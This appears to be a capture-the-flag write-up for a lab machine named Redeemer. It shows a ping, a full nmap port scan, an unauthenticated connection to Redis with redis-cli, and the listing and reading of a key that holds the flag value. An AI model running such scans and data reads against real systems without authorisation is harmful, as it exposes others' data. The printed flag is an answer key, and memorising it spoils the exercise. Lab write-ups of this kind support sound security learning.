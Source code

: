 ![Redeemer.jpg](/assets/Tier-0/Redeemer/redeemer.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.96.90
```



2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.96.90
```

**Output**
```bash
PORT     STATE SERVICE REASON
6379/tcp open  redis   syn-ack ttl 63
```


3. Connect with **redis-cli**
```bash
redis-cli -h 10.129.96.90 -p 6379
10.129.96.90:6379>
```


4. List all keys un bdd
```bash
10.129.96.90:6379> keys *
1) "stor"
2) "flag"
3) "numb"
4) "temp"
```


5. Get "flag"
```bash
10.129.96.90:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
```

**By: EsT**